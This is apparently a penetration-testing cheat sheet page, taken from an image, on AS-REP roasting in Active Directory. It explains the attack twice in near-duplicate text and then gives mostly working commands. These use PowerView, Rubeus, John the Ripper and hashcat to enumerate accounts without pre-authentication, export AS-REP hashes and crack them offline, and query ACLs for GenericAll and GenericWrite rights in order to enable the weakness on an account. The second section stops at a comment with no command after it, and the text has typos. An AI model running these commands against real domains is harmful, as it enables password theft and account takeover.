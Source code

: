 # Targeted Kerberoasting - AS-REPs - FINDING

The ASREPRoast attack looks for users without Kerberos pre-aut6hentication required attribute (DONT_REQ_PREAUTH).

That means that anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message. 
This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.

Furthermore, no domain account is needed to perform this attack, only connection to the DC. However, with a domain account, a LDAP query can be used to retrieve users without Kerberos pre-authentication in the domain. Otherwise usernames have to be guessed.


```bash
# see if the account you disabled appears
Get-DomainUser -PreauthNotRequired -Verbose
.\ASREPRoast.ps1
Inovke-ASREPRoast -Verbose
# ---------------------Abuse it---------------
# Export hash
.\Rubeus.exe asreproast /format:hashcat /outfile:s4vitar.asreproast

# Using bleeding-jumbo branch of John The Ripper, we can brute-force the hashes offline.
./john s4vitar.asreproast --wordlist=rockyou.txt
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
```

# Targeted Kerberoasting - AS-REPs - SET

The ASREPRoast attack looks for users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH).

That means that anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message. 
This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.

Furthermore, no domain account is needed to perform this attack, only connection to the DC. However, with a domain account, a LDAP query can be used to retrieve users without Kerberos pre-authentication in the domain. Otherwise usernames have to be guessed.

```bash
# see if the account you disabled appears
Get-DomainUser -PreauthNotRequired -Verbose

# If you do not find anything, you can look if you can set the PreauthNotRequired with ACL  GenericAll or GenericWrite
# Import Module
. .\powerview.ps1

# Get your SID
whoami
Get-DomainUser -SamAccountName Student1

# GenericAll
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1603')}

# GenericWrite
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1603')}

# Disable the DoesnotRequirePreAuth for a user
```